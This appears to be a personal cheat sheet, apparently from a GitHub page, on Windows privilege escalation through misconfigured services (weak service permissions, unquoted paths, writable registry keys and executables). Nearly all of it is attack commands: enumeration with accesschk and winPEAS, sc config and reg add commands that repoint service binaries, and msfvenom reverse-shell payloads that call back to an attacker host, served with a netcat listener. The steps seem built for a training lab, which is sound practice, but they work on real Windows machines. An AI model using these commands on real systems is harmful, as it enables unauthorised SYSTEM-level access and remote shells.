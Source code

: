 5. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>`  confirm with accesscheck that we can change_CONFIG and start service.
6.  `sc qc <SERVICENAME>`  query the service configuration and look at start type, binary path name, dependencies
7.  `sc query <SERVICENAME>` check the current status of the service.
8.  `sc config <SERVICENAME> binpath="\"C:\PrivEsc\reverse.exe\""` set the binary path to the location of the revershell payload. 
9.  Start a netcat listener and `net start <SERVICENAME>`
10.  
 ### Unquoted Service Path
 0. `.\winPeas.exe quiet servicesinfo` Look for No quotes and Space detected in winpeas
 1. `Get-UnquotedService` (PowerUp) or `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`\ 
 2. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>` check permission if we can restart the service.
 3. Use accesschk.exe to check for write permissions in each binary path (if BUILTIN/user can write, we should write it in that path)
  ``` 
  > .\accesschk.exe /accepteula -uwdq C:\
  > .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
  > .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
  ```
 6.`msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=LISTENINGPORT -f exe  -o Program.exe` (Name payload accordingly to the path writable)\
 7. `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"` copy file
 8. start a netcat listenr, and `net start <SERVICENAME>`
 
 ### Weak Registery Permissions (Modify service registry)
1. Same winPeas command as above.
2. `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<SERVICENAME>` check if its writable i.e (NT AUTHORITY\Interactive)
3. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>` check if we can restart the service
4.  `reg query HKLM\System\CurrentControlSet\Services\<SERVICENAME>` Check the current value and see bin path.
5.  `reg add HKLM\SYSTEM\CurrentControlSet\services\<SERVICENAME> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f` change bin path
6.  start a netcat listener and `net start <SERVICENAME>`


 ### Insecure service Executable i.e Writable Executable
 1. `> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" The c:\Program Files should be changed to my vul path. check we can write on the path
 2. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>`  check we can stop and start service
 3. `copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp` create a backup of original service
 4. `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"` copy reverse shell to vul path
 5.  start a netcat listener  and `net start <SERVICENAME>`
 
 ### Writable Service Executable
  0.`Invoke-AllChecks`\
  1.`msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f exe >service.exe`  (payload name has to be same as writable service) 
